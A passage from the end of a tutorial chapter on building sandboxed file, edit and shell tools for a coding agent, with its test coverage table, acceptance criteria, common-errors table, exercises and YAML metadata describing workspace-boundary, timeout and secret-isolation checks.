| `workspace.test.ts` | relative paths / `..` escape / deep escape / external absolute path / internal absolute path / **symlink escaping outward** / **symlink pointing inward** / nonexistent paths allowed |
| `browse.test.ts` | read (line numbers / window notice / nonexistent / binary / out-of-bounds / offset out of range), glob (sorting / excluded dirs / limit truncation / no matches), grep (format / subdirectories / no matches / invalid regex / limit), **the three-step browsing loop** |
| `modify.test.ts` | write (nested creation / overwrite / out-of-bounds / missing params), edit (unique / not found / multiple / replace_all / nonexistent / meaningless), apply_patch (add / update / delete / **atomicity** / format errors / out-of-bounds / multi-line block indentation) |
| `shell.test.ts` | stdout capture / non-zero exit / timeout kill / cwd / **secrets stay out of the child** / basic environment available / long-output truncation; test tool (success / failure / tailing / **a real bun test project**) |

Debugging tips:
- When a tool misbehaves, first determine whether it is a "boundary rejection" or an "execution failure" — look at the error text prefix.
- When shell-related tests fail, run `bash -c 'echo err >&2; exit 3'` by hand and compare exit codes.

## 11. Acceptance criteria

- [x] `../`, external absolute paths, and symlink escapes are all rejected, with tests.
- [x] edit/apply_patch fail explicitly on zero or multiple matches, with zero file changes.
- [x] shell kills the process on timeout, and secrets stay out of the child's environment.
- [x] read/glob/grep/test output is budgeted (window/limit/tail) with continuation hints.
- [x] 58 new tests pass (165 in total).

## 12. Common errors

| Symptom | Cause | Where to look | Fix |
|---|---|---|---|
| Agent modified a file outside the workspace | path check was string-prefix only | the attack cases in workspace.test.ts | the resolve+relative+realpath triple check |
| File mysteriously emptied | the model used write instead of edit for a local change | check write's meta.overwrote | state the division of labor in tool descriptions; the permission layer (Module 06) defaults write to ask |
| Code corrupted after an edit | fuzzy matching / silent whole-file replacement | edit's failure-semantics tests | the unique-match constraint |
| Subcommand hangs forever | shell has no timeout | the timeout tests | the kill + Registry double insurance |
| Large files slow down all of grep | no size-based skip | the meta.scanned statistics | 512KB skip + notice |

## 13. Take-home challenges

- Basic: add a `tail` parameter to read (read the last N lines, for log scenarios).
- Advanced: swap grep to a ripgrep subprocess (`rg --json`), keep the JS version as fallback, and compare the two for result consistency.
- Research: implement fuzzy matching with context lines for apply_patch (indentation tolerance), and write "malicious patch" tests proving it never replaces the wrong place.

## 14. Chapter summary

At this point the Agent has hands and eyes: it can browse (read/glob/grep), modify (write/edit/apply_patch), and execute (shell/test), and every step has boundaries, budgets, and failure semantics. The next chapter chains these capabilities into a closed loop — the Agent Loop (Chapter 4 likewise opens with a "Prerequisites" section, filling in the state-machine and event-driven foundations).

## 15. Generation metadata

```yaml
module_id: "03-coding-tools"
lesson_id: "03-coding-tools"
source_commit: "70a24697ea0028e19f22712fd63059538cb4bee7"
source_paths:
  - packages/core/src/filesystem.ts
  - packages/opencode/src/tool/read.ts
  - packages/opencode/src/tool/edit.ts
  - packages/opencode/src/tool/apply_patch.ts
  - packages/opencode/src/tool/shell.ts
  - packages/core/src/ripgrep.ts
# Fundamentals not covered by the prerequisites (symlink/NUL/glob/signals/injection/traversal/quantifiers) are taught in this chapter's Section 2
prerequisites: ["02-tool-registry"]
outputs:
  - src/core/workspace.ts
  - src/tools/read.ts
  - src/tools/glob.ts
  - src/tools/grep.ts
  - src/tools/write.ts
  - src/tools/edit.ts
  - src/tools/apply-patch.ts
  - src/tools/shell.ts
  - src/tools/test-runner.ts
tests:
  - test/core/workspace.test.ts
  - test/tools/browse.test.ts
  - test/tools/modify.test.ts
  - test/tools/shell.test.ts
acceptance:
  - all out-of-bounds paths rejected
  - ambiguous edits fail explicitly
  - shell timeout and env allowlist in effect
  - large results truncated with a way to continue
```
